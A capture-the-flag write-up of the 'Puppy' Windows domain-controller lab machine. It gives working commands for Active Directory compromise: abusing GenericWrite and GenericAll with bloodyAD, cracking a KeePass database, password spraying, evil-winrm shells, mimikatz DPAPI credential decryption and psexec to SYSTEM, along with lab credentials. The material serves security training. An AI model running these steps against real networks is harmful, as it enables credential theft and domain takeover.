

# Description

Puppy is a medium Windows machine. This is a grey box machine with a supplied credential. With the credential, we can take advantage of GenericWrite to get access to specific shares. Then, we found a KeePass database file that contains a valid credential for another user account. This user account has GenericAll to another user account that belongs to the `Remote Management Users` group. There will be a backup file that contains another credential inside the machine. Using the credential, we found a saved credential in the DPAPI that contains a credential for administrative user account.

# Recon

## nmap

`nmap` shows open ports that are common on a Domain Controller machine.

```bash
# Nmap 7.95 scan initiated Tue May 20 10:36:50 2025 as: nmap -vvv -p- -T4 -sSCV -oN all_tcp_scan.txt --min-rate 500 10.10.11.70
Nmap scan report for 10.10.11.70 (10.10.11.70)
Host is up, received echo-reply ttl 127 (0.028s latency).
Scanned at 2025-05-20 10:36:50 WIB for 316s
Not shown: 65513 filtered tcp ports (no-response)
Bug in iscsi-info: no string output.
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-05-20 10:18:30Z)
111/tcp   open  rpcbind       syn-ack ttl 127 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
2049/tcp  open  nlockmgr      syn-ack ttl 127 1-4 (RPC #100021)
3260/tcp  open  iscsi?        syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
54035/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
54063/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2025-05-20T10:20:30
|_  start_date: N/A
|_clock-skew: 6h39m08s
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 62785/tcp): CLEAN (Timeout)
|   Check 2 (port 47994/tcp): CLEAN (Timeout)
|   Check 3 (port 26380/udp): CLEAN (Timeout)
|   Check 4 (port 46192/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
```

The domain is `puppy.htb` and the hostname is `DC`, make sure to add those and the FQDN to `/etc/hosts`.

```bash
10.10.11.70 dc.puppy.htb puppy.htb
```

We already given a credential `levi.james:KingofAkron2025!`, so let's check the SMB shares.

# Auth as levi.james

## SMB

```bash
> nxc smb puppy.htb -u levi.james -p 'KingofAkron2025!' --shares
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025!
SMB         10.10.11.70     445    DC               [*] Enumerated shares
SMB         10.10.11.70     445    DC               Share           Permissions     Remark
SMB         10.10.11.70     445    DC               -----           -----------     ------
SMB         10.10.11.70     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.70     445    DC               C$                              Default share
SMB         10.10.11.70     445    DC               DEV                             DEV-SHARE for PUPPY-DEVS
SMB         10.10.11.70     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.70     445    DC               NETLOGON        READ            Logon server share
SMB         10.10.11.70     445    DC               SYSVOL          READ            Logon server share
```

We only have `READ` permission on common shares but there's a `DEV` share that looks interesting. Unfortunately, it's not accessible yet. Let's collect the domain information using `bloodhound-ce-python`:

```bash
bloodhound-ce-python -d puppy.htb -u 'levi.james' -p 'KingofAkron2025!' -c All --zip -op levi -dc dc.puppy.htb -ns 10.10.11.70
```

Then, analyze it with `bloodhound`. After checking for `Outbound Object Control` from `levi.james`, we have `GenericWrite` over the `DEVELOPERS` group because `levi.james` is a member of `HR` group.


We can add ourself to `DEVELOPERS` group and maybe we can get access to `DEV` share.

```bash
bloodyAD --host 10.10.11.70 -d puppy.htb -u levi.james -p 'KingofAkron2025!'  add groupMember developers levi.james
```

Let's check again the SMB shares.

```bash
> nxc smb puppy.htb -u levi.james -p 'KingofAkron2025!' --shares
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025!
SMB         10.10.11.70     445    DC               [*] Enumerated shares
SMB         10.10.11.70     445    DC               Share           Permissions     Remark
SMB         10.10.11.70     445    DC               -----           -----------     ------
SMB         10.10.11.70     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.70     445    DC               C$                              Default share
SMB         10.10.11.70     445    DC               DEV             READ            DEV-SHARE for PUPPY-DEVS
SMB         10.10.11.70     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.70     445    DC               NETLOGON        READ            Logon server share
SMB         10.10.11.70     445    DC               SYSVOL          READ            Logon server share
```

Now we can access `DEV` share.

```bash
> smbclient.py puppy.htb/levi.james:KingofAkron2025!@puppy.htb
# use DEV
# ls
drw-rw-rw-          0  Sun Mar 23 14:07:57 2025 .
drw-rw-rw-          0  Sat Mar  8 23:52:57 2025 ..
-rw-rw-rw-   34394112  Sun Mar 23 14:09:12 2025 KeePassXC-2.7.9-Win64.msi
drw-rw-rw-          0  Mon Mar 10 03:16:16 2025 Projects
-rw-rw-rw-       2677  Wed Mar 12 09:25:46 2025 recovery.kdbx
```

There's a `recovery.kdbx` file which is a KeePass database file. Let's get it.

```bash
get recovery.kdbx
```


We need a master password to open the database. Let's try to crack it.

```bash
keepass2john recovery.kdbx > keepass_hash.txt
john keepass_hash.txt --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

It should be cracked, let's get back to the KeePass and input the master password.


We have bunch of credentials. Let's spray them to see which one works. `Steve` and `Samuel` are non existent user so I will skip them.
`users.txt`

```txt
jamie.williams
adam.silver
ant.edwards
```

`passwords.txt`

```txt
JamieLove2025!
HJKL2025!
Antman2025!
```

```bash
> nxc smb puppy.htb -u users.txt -p passwords.txt --no-brute --continue-on-success
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\jamie.williams:JamieLove2025! STATUS_LOGON_FAILURE
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\adam.silver:HJKL2025! STATUS_LOGON_FAILURE
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\ant.edwards:Antman2025!
```

The credential for `ant.edwards` works.

# Auth as ant.edwards

## GenericAll


The `ant.edwards` has `GenericAll` permission on `adam.silver` user because he is a member of `SENIOR DEVS` group.


The `adam.silver` user is a member of `Remote Management Users` group, so he could `WinRM` to the machine.



Looking at the user detail, this user isn't enabled. So to compromise it, we need to change the password and enable it.

```bash
bloodyAD --host 10.10.11.70 -d puppy.htb -u ant.edwards -p 'Antman2025!'  set password adam.silver Password123!
bloodyAD --host 10.10.11.70 -d puppy.htb -u ant.edwards -p 'Antman2025!' remove uac adam.silver -f ACCOUNTDISABLE
```

# Shell as adam.silver

## User flag

Get a shell using `evil-winrm` and grab the user flag at `C:\Users\adam.silver\Desktop\user.txt`.

```bash
> evil-winrm -i 10.10.11.70 -u adam.silver -p Password123!
*Evil-WinRM* PS C:\Users\adam.silver\Documents> cat ../Desktop/user.txt
deadbeefd64a9ce01e5f9ff1f5e4fake
```

## Backup file

After exploring the file system, I found a backup file at `C:\Backups\site-backup-2024-12-30.zip`. Let's download it. After unzipping it, I found another credential inside `nms-auth-config.xml.bak` file for `step.cooper` user.

```bash
> cat nms-auth-config.xml.bak
<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password><steph.cooper_password></bind-password>
    </server>
    <user-attributes>
        <attribute name="username" ldap-attribute="uid" />
        <attribute name="firstName" ldap-attribute="givenName" />
        <attribute name="lastName" ldap-attribute="sn" />
        <attribute name="email" ldap-attribute="mail" />
    </user-attributes>
    <group-attributes>
        <attribute name="groupName" ldap-attribute="cn" />
        <attribute name="groupMember" ldap-attribute="member" />
    </group-attributes>
    <search-filter>
        <filter>(&(objectClass=person)(uid=%s))</filter>
    </search-filter>
</ldap-config>
```


This user belongs to the `Remote Management Users` group, so we can `WinRM` to the machine.

```bash
evil-winrm -i 10.10.11.70 -u steph.cooper -p <steph.cooper_password>
```

# Shell as step.cooper

## Saved credential

Checking on the `C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials` directory, I found a credential file named `C8D69EBE9A43E9DEBF6B5FBD48B521B9`. This credential is tied to this user account not only to the machine because it's residing in the `Roaming` folder. There is another credential that is inside the `Local` folder but when I checked on `adam.silver` user, he has the same saved credential file in the `Local` folder. So the credential inside `Roaming` folder is more likely contains saved credentials. We can decrypt it using `mimikatz`.

```ps1
# Get the user SID
whoami /user
# Get the masterkey
./mimikatz.exe "dpapi::cred /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" "exit"

# Make the domain controller decrypt the masterkey and get the credential
./mimikatz.exe "dpapi::masterkey /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\<USER_SID>\<MASTERKEY> /rpc" "dpapi::cred /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" "exit"
```

And you should get a credential for `steph.cooper_adm`:

```txt
 AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:target=PUPPY.HTB
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : steph.cooper_adm
  CredentialBlob : <steph.cooper_adm_password>
  Attributes     : 0
```

Checking for `steph.cooper_adm` user, he is a member of the `Administrators` group. So we can get a system shell by using `psexec`.

```ps1
> net user steph.cooper_adm
...
Local Group Memberships      *Administrators
Global Group memberships     *Domain Users
...
```

# Shell as NT Authority\System

## Root flag

```bash
> psexec.py puppy.htb/steph.cooper_adm:FivethChipOnItsWay2025!@10.10.11.70
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
deadbeef2160db2dfdc043420497fake
```
